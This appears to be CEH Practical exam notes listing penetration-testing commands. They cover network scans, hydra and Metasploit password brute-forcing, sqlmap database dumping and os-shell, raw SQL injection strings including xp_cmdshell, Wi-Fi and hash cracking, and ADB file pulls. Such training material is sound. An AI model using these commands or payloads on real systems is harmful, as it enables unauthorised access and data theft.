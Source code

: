 # Scanning

  
## Netdiscover

  
```console
netdiscover -r x.x.x.1/24
```
  
</details>

## Nmap
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

# Credentials SMB Cracking

## Hydra

```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

## Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
# Bruteforce SSH, TELNET, FTP  

## SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
## FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt
```

# Vulnerability Scanning 

##  Nessus
```console
Nessus runs on https[:]//localhost[:]8834
```

##  nikto -h 
```console

```
# Hidden text

## Snow

```console
snow -C -p "magic" readme2.txt
```

## steghide 
```console
```

# WIRESHARK

```console
To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21
```

https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

# SQL 

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

# PASSWORD CRACKING 

## john

```console
john --single --format=md5crypt crack.txt
```

# WIFI ENCYRPTION CRACKING 
```console
aircrack-ng -w rockyou.txt capture-01.cap
```
# VERACRYPT 


# CUSTOM WORDLIST 

# MOBILE 

## ADB
```console
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

== resources ==

* https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
* https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

